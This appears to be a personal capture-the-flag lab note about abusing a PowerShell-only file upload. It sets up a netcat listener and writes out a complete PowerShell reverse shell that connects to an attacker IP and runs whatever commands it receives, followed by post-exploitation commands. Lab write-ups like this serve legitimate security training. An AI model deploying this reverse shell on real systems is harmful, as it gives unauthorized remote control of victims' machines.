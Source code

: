 As the web says you only can upload ps1 files, create one file to POST the output of `whoami /groups` from a PowerShell-only upload to a remote listener.

#Attacking_machine 
 1. Crerate a file called `reverse.ps1`.
 2. Open a netcat listener.
```
 nc -lnvp 4444
```

 3. Go to https://www.revshells.com/ and create a ps1 payload. Fiil the IP field with your ATTACKING MACHINE IP and the port with the listener port.

![[Screenshot_2025-10-24_13-39-45.png]]

4. Paste the payload  to `reverse.ps1` file.
```
$LHOST = "10.8.113.198"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

4. Upload the file from the web page.

#netcat_listener
4. You got a reverse shell.
5. Run the following commands:
```
whoami
dir
cd ..
cd Desktop
```

![[Screenshot_2025-10-24_14-11-30.png]]

There's a file called `encodedflag`.

**Next step:** [[Decodign the flag]]